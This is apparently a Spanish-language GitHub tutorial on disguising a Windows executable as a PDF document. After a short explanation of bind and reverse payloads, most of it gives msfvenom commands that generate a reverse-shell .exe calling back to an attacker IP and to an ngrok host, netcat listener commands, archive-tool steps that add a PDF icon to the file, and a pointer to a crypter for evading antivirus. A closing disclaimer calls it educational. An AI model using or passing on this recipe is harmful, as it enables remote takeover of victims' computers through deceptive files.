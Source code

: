 <p align="center">
  <a href="https://github.com/DenverCoder1/readme-typing-svg"><img src="https://readme-typing-svg.herokuapp.com?font=Fira+Code&size=19&pause=1000&color=D1F700&width=489&lines=Incrustar+Payload+.EXE+a+un+archivo+.PDF"></a>
</p>

<h1 align="center"></h1>

<h3 align="center"><ins>Qué es un PAYLOAD y cuáles son sus TIPOS</ins></h3>

En el campo de la seguridad informática el payload (*carga útil*) son los datos o metadatos transmitidos como un mensaje para facilitar la entrega de éste. Un ejemplo de la vida real sería un avión o camión de carga, donde éste transporta grandes mercancías para su utilización. Ahora bien, cuando se envía un correo electrónico también se transmite datos como el mensaje, la cabecera, el cuerpo del mensaje y otros metadatos que quieres que reciba el destinario.

El término de "**carga útil maliciosa**" o "**payload malicioso**" aparece en escena cuando hablamos especificamente de ciberseguridad. Un exploit es una vulnerabilidad, y el payload es la carga que se ejecuta en esa vulnerabilidad para realizar ciertas acciones maliciosas en el sistema, como ejecutar comandos remotos, borrar ficheros o enviar datos, secuestrar una URL para redireccionar al usuario a un sitio web malicioso con malware adjuntado, entre otras.  Los payloads maliciosos primero tienen que encontrar la entrada correcta para llegar al dispositivo, la forma más común de entregar la carga útil es a través de la ingeniería social como el phishing, email spoofing, entre otros ataques avanzados de suplantación de identidad. Entrando en juego, un ejemplo sería cuando recibes un correo electrónico de la empresa "Amazon" para rastrear tu pedido. Como estás esperando la entrega, haces clic en el enlace. El enlace te lleva a una página de seguimiento de pedidos de Amazon, pero automáticamente se descarga un archivo "confiable", en realidad, es el payload malicioso incrustado en un archivo legítimo. Está técnica se le conoce como secuestro de DNS acompañada de ingeniería social, en algunos casos la página legítima de la empresa es secuestrada por el atacate para inyectar código malicoso (Javascript u otro lenguaje) e incrustar payloads.

##### TIPOS de PAYLOADS

- **Payload BIND (Directo)**: Una shell directa es una especie de configuración donde las consolas remotas se establecen con otras computadoras a través de la red. En Bind shell, el atacante inicia un servicio en la computadora de destino, a la que puede concectarse. Para ello, el atacante debe tener la IP de la víctima para acceder al dispositivo y ejecutar comandos remotos. Bind TCP abre un puerto en el dispositivo de la víctima. Por lo general, una máquina está detrás de un firewall (o NAT) y los firewalls no permiten más puertos que algunos específicos (21, 22, 80, 443, etc). Un puerto abierto significa que podría estar disponible para que cualquiera pueda interactuar con ese puerto en el host de la víctima.

- **Payload REVERSE (Inverso)**: Mientra tanto, en una shell inversa el atacante usa la ejecucción de código inicial para que la máquina de la víctima se comunique con la máquina del atacante para obtener acceso. En este escenario, el atacante configura un puerto escucha, el puerto _1234_ por ejemplo, y espera que la máquina de la víctima se comunique e instale la carga útil. Su principal ventaja es que la máquina víctima es quién se conecta a la máquina atacante, sin necesidad de abrir un puerto en la máquina víctima, evitando así que usuarios no deseados accedan a él. Además, los firewalls basados en hosts y/o red son más restrictivos en filtrados de salida. 

En conclusión, las cargas útiles inversas son más eficientes dado que es más probable que eludan cortafuegos.

- <a href="https://github.com/R3LI4NT/articulos/blob/main/Pentesting/WEB/ataqueXSS.md">Vulnerabilidad Cross-site scripting y secuestro de cookies</a>

- <a href="https://www.geeksforgeeks.org/difference-between-bind-shell-and-reverse-shell/">Diferencia entre payload Bind y Reverse</a>

<p align="center">
  <img src="https://github.com/R3LI4NT/articulos/blob/main/Pentesting/O.S/img/tiposPayloads.png">
</p>

<h1 align="center"></h1>

### ➤ Incrustar payload .EXE 

En el siguiente ejemplo utilizaré la herramienta Msfvenom del framework Metasploit para generar el payload. Abriré una terminal de la máquina atacante (Kali) y ejecutaré el siguiente comando para generar un payload de tipo reverse shell.

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.8 LPORT=4444 -f exe -o documento.exe
```

![1](https://user-images.githubusercontent.com/75953873/221320034-6f8e564e-c111-4554-8678-6580b10aabba.png)

- **-p**: Tipo de payload (para Windows de 64bits de tipo reverse).

- **LHOST**: IP de la máquina atacante.

- **LPORT**: Puerto escucha.

- **-f**: Formato del archivo (.exe).

- **-o**: Nombre del archivo (salida).

El siguiente paso será copiar el payload generado al escritorio de Windows. Después, hay que descargar el icono de PDF (en PNG) y convertirlo a `.ico` con la siguiente página (https://www.icoconverter.com/):

![2](https://user-images.githubusercontent.com/75953873/221322644-1b8a2990-3796-4154-9010-961142191c73.png)

Ahora, deberán crear un documento PDF (original) y combinarlo con el payload. Para ello, seleccionan los dos archivos (payload .EXE y documento .PDF) y le dan clic a "_Añadir al archivo_".

![3](https://user-images.githubusercontent.com/75953873/221322932-e7c37e7f-3d3a-4f85-a130-23b65446df87.png)

Marcan la casilla de "_Crear un archivo autoextraíble_" y en el método de compresión seleccionan "_La mejor_".

![4](https://user-images.githubusercontent.com/75953873/221323181-d5cc8413-3faf-4f22-8355-00cef6ec84bc.png)

Luego, en el apartado de "**Avanzado**", dan clic en "_Autoextraíble_" **->** "_Instalación_" y escriben el nombre de los dos archivos, es decir, del payload y el documento malicioso.

![5](https://user-images.githubusercontent.com/75953873/221323376-e204ff6f-470d-48ee-904e-a8dbd36befbd.png)

En la sección de "**Actualizar**" marcan las casillas de "_Extrar y actualizar ficheros_" y "_Sobrescribir todos los ficheros_".

![6](https://user-images.githubusercontent.com/75953873/221323534-9e55c199-7180-4dd1-9bd4-864cc94a9bd8.png)

Para añadir el icono hay que ir a "**Texto e icono**" y cargarlo en la última opción "_Cargar icono desde fichero_"; aquí seleccionan el logo convertido a `.ico`.

![7](https://user-images.githubusercontent.com/75953873/221323864-326a2cf4-8580-43e5-baf6-e9842b94ebf7.png)

Por útilmo, escogen el nombre del archivo malicioso.

![8](https://user-images.githubusercontent.com/75953873/221324091-a0926da4-c1d8-4737-a2cb-f70255f30b9b.png)

Desde la máquina atacante pondremos a escucha conexiones por el puerto `4444` con la herramienta de Netcat.

```
nc -nlvp 4444
```

- **-n**: Modo dirección IP númerica.

- **-l**: Modo escucha.

- **-v**: Modo verbose (detalles de conexiones).

- **-p**: Puerto específico de escucha.

Y esperamos que la víctima ejecute el documento malicioso y le de a "**Instalar**".

![9](https://user-images.githubusercontent.com/75953873/221324860-3dc1a8e3-116b-4812-b028-3e874f5d071c.png)

Rápidamente conseguiremos acceso a la máquina víctima y podremos ejecutar comandos remotos.

![10](https://user-images.githubusercontent.com/75953873/221324978-a2d0344f-fe32-4288-9252-ad6413dc15d1.png)

<h1 align="center"></h1>

#### ➤ Fuera de la red LAN

El método anterior solo funciona si la víctima se encuentra conectado a la misma red local que el atacante. Para hacerlo funcionar fuera de la red LAN hay que crear un túnel dinámico para convertir nuestra conexión (o servicio) local a público, esto gracias al proxy inverso que ofrece <a href="https://ngrok.com/download">**Ngrok**</a>. Por ejemplo, si tenemos un servicio arrancando en `http://localhost:8080`, lo que hará negrok es generar una URL dinámica del tipo `http://xxxxxx.ngrok.io` visible en internet que apunta a nuestro localhost.

- <a href="https://www.youtube.com/watch?v=JNpg_iA_zWc">Instalar NGROK en Linux</a>

El primer paso será crear un túnel TCP por el puerto 9999:

```
ngrok tcp 9999
```

![11](https://user-images.githubusercontent.com/75953873/221445377-9df84e93-3b3a-465f-b7b1-ad5fd7048351.png)

Ahora, crearemos nuevamente el payload pero está vez sustituimos el **LHOST** por la dirección de Ngrok y el puerto **LPORT**.

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=0.tcp.sa.ngrok.io LPORT=12296 -f exe -o documento.exe
```

![12](https://user-images.githubusercontent.com/75953873/221445539-c34703b3-56f5-469f-bb03-ececf9cf19f7.png)

Repiten los pasos utilizados para incrustar el payload en el documento, el puerto que usamos para abrir el túnel Ngrok fue `9999`. Por lo tanto, pondremos a escucha el mismo con Netcat:

```
nc -nlvp 9999
```

![13](https://user-images.githubusercontent.com/75953873/221445921-d0f74a2a-f3a7-4e84-84df-a4814ba0dc9b.png)

Una carga útil de Msfvenom es altamente detectable por los antivirus, a día de hoy las base de datos de AV contienen las firmas de cientos de malware para su detección.

![14](https://user-images.githubusercontent.com/75953873/221446743-1d93ec54-7569-49fe-884f-0dca63e66510.png)

Generalmente los atacantes utilizan un crypter para evadir los antivirus. Un crypter es un software que altera los archivos con el objetivo de que éste puede saltarse las diversas protecciones que propone un antivirus. Repasando las técnicas de los AV, cuentan con dos formas para detectar las amenzanas:

- **Firmas**: los antivirus detectan patrones hexadecimales de los archivos y los comparan con su base de datos. En caso de coincidir, la amenaza será bloqueada.

- **Heurística**: los antivirus detectan comportamiento malintencionado de un archivo y lo catalogan como amenaza si éste es malicioso.

➙ <a href="https://www.kaspersky.es/blog/signature-virus-disinfection/9298/">Firmas - Kaspersky</a>

➙ <a href="https://www.kaspersky.es/resource-center/definitions/heuristic-analysis">Heurística - Kaspersky</a>

La mayoría de los Crypters son privados debido al esfuerzo que hay detrás para mantenerlo actualizado, y los que hay gratis, son inútiles o vienen con una sorpresa incluída. Sin embargo, hay proyectos en github como el caso de <a href="https://github.com/MrEmpy/Condor">**Condor**</a> creados con fines de ayudar a los probadores de penetración a eluir la protección como AV/EDR/XDR en el sistema operativo Windows.

![15](https://user-images.githubusercontent.com/75953873/222000998-0bdaaf32-cbd9-46e6-b325-b1b3416fbe2d.png)

La herramienta trae por defecto iconos predeterminados, de igual manera se puede descargar y convertir a extensión `.ico` si así lo desea.

![16](https://user-images.githubusercontent.com/75953873/222002321-e83df0e3-9888-4fbd-a14a-2848a0f4b7a4.png)

</br>

<h1 align="center"></h1>

<h3 align="center"><ins>ADVERTENCIA<ins></h3>

<h4 align="center">Esto es con fines de aprendizaje, no nos hacemos responsables ni el fundador, ni el creador del tema del mal uso de esta herramienta u información.</h4>



#### ~R3LI4NT~
